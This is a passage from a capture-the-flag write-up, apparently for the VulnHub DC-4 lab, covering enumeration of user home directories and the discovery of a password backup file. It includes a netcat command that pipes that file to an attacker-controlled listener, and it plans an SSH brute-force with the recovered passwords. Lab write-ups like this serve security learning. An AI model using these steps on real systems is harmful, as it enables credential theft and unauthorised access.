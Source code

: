 ```
drwxr-xr-x  2 sam     sam     4.0K Apr  7 04:31 sam

[...]
```

`LinEnum` found 3 users in the system; `charles`, `jim`, and `sam`. Taking a look at their home directories show us 
that `charles` and `sam` don't give us much to work with while `jim` has 2 interesting files; a `.sh` that has a 
`-rwsrwxrwx` `SUID` and a file named `old-passwords.bak` which is located in a folder named `backups`. By copying 
`old-passwords.bak` to our system, we can examine it further.

```
$ ls -la /home/charles
-rw-r--r-- 1 charles charles  220 Apr  6 20:02 .bash_logout
-rw-r--r-- 1 charles charles 3526 Apr  6 20:02 .bashrc
-rw-r--r-- 1 charles charles  675 Apr  6 20:02 .profile

$ ls -la /home/sam
-rw-r--r-- 1 sam  sam   220 Apr  6 20:03 .bash_logout
-rw-r--r-- 1 sam  sam  3526 Apr  6 20:03 .bashrc
-rw-r--r-- 1 sam  sam   675 Apr  6 20:03 .profile

$ ls -la  /home/jim
-rw-r--r-- 1 jim  jim   220 Apr  6 20:02 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6 20:02 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6 20:02 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7 02:58 backups
-rw------- 1 jim  jim   528 Apr  6 20:20 mbox
-rwsrwxrwx 1 jim  jim   174 Apr  6 20:59 test.sh

$ cat jim/test.sh
#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."

$ ls -la /home/jim/backups
-rw-r--r-- 1 jim jim 2047 Apr  7 02:26 old-passwords.bak

$ nc -lvnp 7750 > old-passwords.bak 

$ cat /homejim/backups/old-passwords.bak | nc 192.168.2.112 7750
```

Taking a look at `old-passwords.bak` reveals a lot of possible passwords. Taking the `SSH` service running on Port 22 
to account, we'll brute-force the `SSH` as `jim` using this password list.


[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-12-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-12-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-12-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo